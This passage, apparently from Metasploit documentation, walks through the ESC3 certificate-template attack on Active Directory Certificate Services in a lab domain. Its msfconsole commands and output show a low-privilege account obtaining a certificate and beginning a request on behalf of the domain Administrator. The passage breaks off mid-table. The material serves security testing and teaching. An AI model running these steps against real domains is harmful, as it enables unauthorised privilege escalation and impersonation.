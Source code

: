 ```
View the full module info with the info, or info -d command.

msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normal
SMBUser => normal
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normaluser
SMBPass => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBDomain DAFOREST
SMBDomain => DAFOREST
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC3-Template1
CERT_TEMPLATE => ESC3-Template1
msf6 auxiliary(admin/dcerpc/icpr_cert) > run
[*] Running module against 172.30.239.85

[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: normal@daforest.com
[*] 172.30.239.85:445 - Certificate SID: S-1-5-21-3290009963-1772292745-3260174523-1611
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > loot

Loot
====

host  service  type           name             content               info                         path
----  -------  ----           ----             -------               ----                         ----
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216173718_default_unknown_windows.ad.cs_580032.pfx
               windows.ad.cs  certificate.pfx  application/x-pkcs12  DAFOREST\normal Certificate  /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx

msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

Next we'll try use this certificate to request another certificate on behalf of a different user. For this stage we need to specify another certificate that is vulnerable to the ESC3_TEMPLATE_2 attack vector that we are able to enroll in. We will use the `User` template for this:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > set PFX /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
PFX => /home/gwillcox/.msf4/loot/20221216174221_default_unknown_windows.ad.cs_027866.pfx
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ON_BEHALF_OF DAFOREST\\Administrator
ON_BEHALF_OF => DAFOREST\Administrator
msf6 auxiliary(admin/dcerpc/icpr_cert) > show options

Module options (auxiliary/admin/dcerpc/icpr_cert):

   Name           Current Setting                 Required  Description
   ----           ---------------                 --------  -----------
   ALT_DNS                                        no        Alternative certificate DNS
   ALT_UPN                                        no        Alternative certificate UPN (format: USER@DOMAIN)
   CA             daforest-WIN-BR0CCBA815B-CA     yes       The target certificate authority
   CERT_TEMPLATE  ESC3-Template1                  yes       The certificate template
   ON_BEHALF_OF   DAFOREST\Administrator          no        Username to request on behalf of (format: DOMAIN\USE
```